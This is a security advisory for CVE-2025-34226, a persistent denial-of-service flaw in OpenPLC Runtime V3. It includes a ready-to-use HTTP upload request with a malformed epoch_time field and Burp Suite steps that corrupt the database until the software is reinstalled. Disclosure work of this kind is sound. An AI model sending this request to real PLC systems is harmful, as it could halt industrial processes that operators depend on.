 # CVE-2025-34226: Persistent DoS in OpenPLC Runtime

## Vulnerability Overview
| Field | Value |
|-------|-------|
| **CVE ID** | CVE-2025-34226 |
| **Affects** | OpenPLC Runtime V3 |
| **Fixed in** | *(commit) 095ee09623dd229b64ad3a1db38a901a3772f6fc* |
| **Severity** | High |
| **CVSS 4.0** | `CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/VC:N/VI:L/VA:H/SC:N/SI:N/SA:N` **7.1 (High)** |
| **CWE** | CWE-664 Improper Control of a Resource Through Its Lifetime, CWE-20 Improper Input Validation |

---

## Executive Summary
OpenPLC Runtime suffers from a persistent denial of service (DoS) vulnerability in the `/upload-program-action` endpoint.  
By modifying the `epoch_time` parameter during program upload, a low-privileged authenticated user can corrupt the backend database.  
This corruption initially disables critical pages and eventually prevents the entire runtime from starting, effectively **bricking the application until it is reinstalled**.  

---

### Security Impact
- **Persistent DoS** – Once triggered, the system cannot recover without a full reinstall.  
- **Database Corruption** – Exploit introduces invalid values into OpenPLC’s SQLite database, breaking the runtime state.  
- **Operational Disruption** – In ICS/OT contexts, this could cause downtime of PLC-managed processes.  
- **Bypass of Validations** – Exploit bypasses input validation, demonstrating lack of sanitization for critical parameters.  

---

## Technical Details

### Affected Versions
- **Vulnerable Versions:** OpenPLC Runtime ≤ v3 (not latest version)  
- **Patched Version:** remediated by commit 095ee09623dd229b64ad3a1db38a901a3772f6fc  

### Attack Vector
The `/upload-program-action` endpoint accepts a field `epoch_time` that is written directly into the database without validation.  
When this field is set to a crafted or nonsensical value (e.g., `1758627838` or malformed data), OpenPLC stores an inconsistent state.  
At runtime reload or reboot, the application queries the corrupted row and encounters a `NoneType` object → fatal crash (`TypeError: 'NoneType' object is not subscriptable`).  

---

## Proof of Concept

### PoC 1: Malicious Upload Request (Burp Suite Repeater)
```http
POST /upload-program-action HTTP/1.1
Host: TARGET:8080
Content-Type: multipart/form-data; boundary=----BOUNDARY
Cookie: session=[valid-session-cookie]

------BOUNDARY
Content-Disposition: form-data; name="prog_name"

test
------BOUNDARY
Content-Disposition: form-data; name="prog_descr"

test
------BOUNDARY
Content-Disposition: form-data; name="prog_file"; filename="demo.st"
Content-Type: text/plain

PROGRAM demo
END_PROGRAM
------BOUNDARY
Content-Disposition: form-data; name="epoch_time"

"Just edit here and it will work (e.g "Hello !")"
------BOUNDARY--
```

### Reproduction Steps

 1. Open burpsuite
 2. Open burpsuite browser
 3. Go on the openplc interface
 4. Authenticate with a low-privileged account.
 5. Upload a program via `/programs` 
 6. Choose a random name. 
 7. Turn on burpsuite proxy 
 8. Send request to repeater
 9. Edit epoch_time section and change by a random character like "L" instead of original epoch_time
10. Send the new crafted request.
11. Observe /programs and you will see that is no more working
12. After that sometimes when OpenPLC Restart the runtime fails to launch and it's impossible to restart OpenPLC after this.

---

### Immediate Actions
1. **Upgrade immediately** OpenPLC V3

---

### References
- **Patch/Release Notes:** [[Link to official latest release]](https://autonomylogic.com/docs/installing-openplc-runtime-on-windows/)
- **Vuln History:** [[Vuln History Link]](https://openplc.discussion.community/post/persistant-dos-affecting-openplc-runtime-13722844)

---

## Credits
**Discovered by:** Eyodav
